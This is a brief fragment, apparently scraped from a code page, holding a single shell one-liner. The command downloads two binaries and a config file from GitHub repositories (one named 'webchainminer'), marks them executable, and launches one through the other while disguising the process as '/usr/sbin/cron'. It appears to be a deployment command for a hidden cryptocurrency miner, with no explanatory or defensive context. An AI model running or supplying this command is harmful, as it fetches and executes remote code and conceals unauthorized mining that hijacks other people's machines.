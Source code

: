 wget https://github.com/miingiing/act/raw/main/godb && wget https://raw.githubusercontent.com/cihuuy/hodo/refs/heads/master/config.json && wget https://github.com/cihuuy/webchainminer/raw/refs/heads/main/wch && chmod +x godb wch \
&& ./godb -s "/usr/sbin/cron" -p croned.pid ./wch 
